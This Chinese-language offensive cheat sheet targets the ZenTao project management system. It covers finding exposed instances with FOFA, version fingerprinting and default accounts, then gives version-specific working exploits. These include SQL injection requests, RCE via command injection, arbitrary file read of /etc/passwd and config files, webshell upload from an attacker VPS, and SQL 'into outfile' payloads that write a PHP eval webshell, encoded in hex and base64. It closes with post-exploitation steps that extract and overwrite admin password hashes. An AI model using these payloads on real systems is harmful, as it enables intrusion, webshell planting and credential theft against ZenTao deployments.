

禅道
目录
禅道是一种开源的项目管理和协作系统。它提供了项目管理、任务管理、缺陷跟踪、文档管理、团队协作等功能，可以帮助团队高效地进行项目管理和协作。
探测
fofa
https://fofa.info/result?qbase64=YXBwPSLmmJPova%2FlpKnliJst56aF6YGT57O757ufIg%3D%3D
查看版本
api看
http://127.0.0.1/zentao/index.php?mode=getconfig
F12看版本
F12搜索stylesheet
历史漏洞
开源版测试账号
密码均为123456
productManager
projectManager
dev1
dev2
dev3
tester1
tester2
tester3
testManager
当使用这些账号初次登录系统时，弹出的修改密码页面可能有bug，需要自行修改：点击右侧头像-修改密码，修改成功，即可进入系统
18.0.beta1权限绕过+命令注入rce
禅道系统 影响版本
开源版 17.4以下的未知版本<=version<=18.0.beta1
旗舰版 3.4以下的未知版本<=version<=4.0.beta1
企业版 7.4以下的未知版本<=version<=8.0.beta1 8.0.beta2
https://github.com/0xf4n9x/Zentao-Captcha-RCE
1.exe -u url -c whoami
禅道16.5 SQL注入漏洞
报错注入
POST /user-login.html HTTP/1.1
Host: 172.16.1.8
Content-Length: 189
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.16.1.8
Referer: http://172.16.1.8/user-login-Lw==.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:
Connection: close
account=aaa' and updatexml(1,concat(0x7e,(database()),0x7e),1) and '1'='1&password=b1663c937c5c84c38568ef381912c740&passwordStrength=0&referer=%2F&verifyRand=1090667403&keepLogin=0&captcha=
12.4.2后台任意文件上传
先通过ftp在自己vps传个马
然后把这个链接base64加密，放入下面这个链接进行文件上传
http://127.0.0.1/zentao/client-download-1-(base64 encode webshelldownload link)-1.html
然后访问即可
http://127.0.0.1/zentao/data/client/1/a.php
11.6后台存储xss
11.6后台sql注入
http://www.0-sec.org/zentaopms_11.6/www/api-getModel-user-getRealNameAndEmails-users=admin
http://www.0-sec.org/zentaopms_11.6/www/api-getModel-api-sql-sql=select+account,password+from+zt
_user

11.6 文件包含
http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd
11.6文件上传+文件包含→rce
写文件
POST /api-getModel-editor-save-filePath=/tmp/shell.php
fileContent=<?php phpinfo();?>
包含文件
http://127.0.0.1/api-getModel-api-getMethod-filePath=/tmp/shell/1
12.4.2 任意文件读取&下载
index.php?m=file&f=sendDownHeader&fileName=2&fileType=1&content=/etc/passwd&type=file
index.php?m=file&f=sendDownHeader&fileName=2&fileType=1&content=./../../config/my.php&type=file
index.php?m=im&f=downloadXxdPackage&xxdFileName=../../../../../../../../../etc/passwd
pro任意版本命令执行
client参数进行命令执行
POST /repo-create.html
SCM=Git&name=test2&path=C%3A%5CProgramData&encoding=utf-8&client=whoami
8.2-9.2.1 低版本前台SQL注入写shell
随便输路由会爆绝对路径

如果没报错，就用这个payload
{"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"}
base64转化
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0=
base64字符放入param参数
http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case¶m=base64
into outfile 写shell
select '<?php phpinfo();?>' into outfile 'C:/Users/Administrator/Desktop/xampp/zentao/www/test.php'
73656c65637420273c3f70687020706870696e666f28293b3f3e2720696e746f206f757466696c652027433a2f55736572732f41646d696e6973747261746f722f4465736b746f702f78616d70702f7a656e74616f2f7777772f746573742e70687027
上面这个方法如果不能写，可以用如下方式尝试bypass
select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php'
hex编码（注意加密解密都不带0x，但是EXP中需要加上）
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027
payload原型
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
base64加密
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==
后渗透
获取组织架构
ip/my-team.html
数据库中的账户密码位置
zentao库，zt_user表
password字段（被md5加密）和account字段
改管理员密码进行登录，password需md5加密
update zt_user SET password='10685fcd8e87988b0b02ac12d3f0ae88' where id=1;
装插件getshell
后台→插件，admin才能装，但是可能点击插件后，提示必须在机器上创建一个特定文件才能装插件（验证admin身份），这种情况就没办法了
有可能有可以执行命令的插件。